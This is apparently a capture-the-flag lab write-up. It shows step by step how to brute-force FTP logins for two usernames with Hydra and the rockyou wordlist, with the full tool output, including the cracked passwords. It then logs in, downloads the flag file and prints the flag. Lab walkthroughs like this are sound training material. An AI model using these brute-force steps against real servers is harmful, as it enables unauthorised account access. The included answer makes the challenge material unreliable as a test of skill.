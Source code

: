 We have an FTP server listening on a nonstandard port. What is the version of the FTP server?  `vsftpd 3.0.3`

We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP? 
     
     1. Create a Text File with the Usernames
     First, you need to create a text file that contains the usernames Eddie and Quinn. Let's call this file usernames.txt. Add the usernames to the file, one per line:
        eddie
        quinn
     
     2. Run Hydra on the Target Host
Now, you can run Hydra on the target host using the FTP protocol. Replace <ip address> with the target host IP and 10021 with the FTP port.
```	
root@ip-10-10-194-84:~# hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.236.70:10021
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-01-21 19:13:55
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688796 login tries (l:2/p:14344398), ~1793050 tries per task
[DATA] attacking ftp://10.10.236.70:10021/
[10021][ftp] host: 10.10.236.70   login: eddie   password: jordan
[10021][ftp] host: 10.10.236.70   login: quinn   password: andrea
1 of 1 target successfully completed, 2 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-01-21 19:14:26
 ```
     3. Connect to the FTP Server 
Use an FTP client to connect to the FTP server. You'll need to enter the username and password for one of the users (Eddie or Quinn) that you've just found. If you're using the command line, you can use the ftp command followed by the IP address of the target host and the FTP port:
``` 
ftp 10.10.236.70 10021
Connected to 10.10.236.70.
220 (vsFTPd 3.0.3)
Name (10.10.236.70:root): quinn
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
```
    4. Download the Flag File & View the Flag
Now, you can download the flag file using the get command followed by the name of the file. Based on the information provided in the search results, the flag file is likely named ftp_flag.txt. So, you would use:
```
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
18 bytes received in 0.02 secs (1.0419 kB/s)
ftp> exit
221 Goodbye.
root@ip-10-10-194-84:~# cat ftp_flag.txt 
THM{321452667098}
```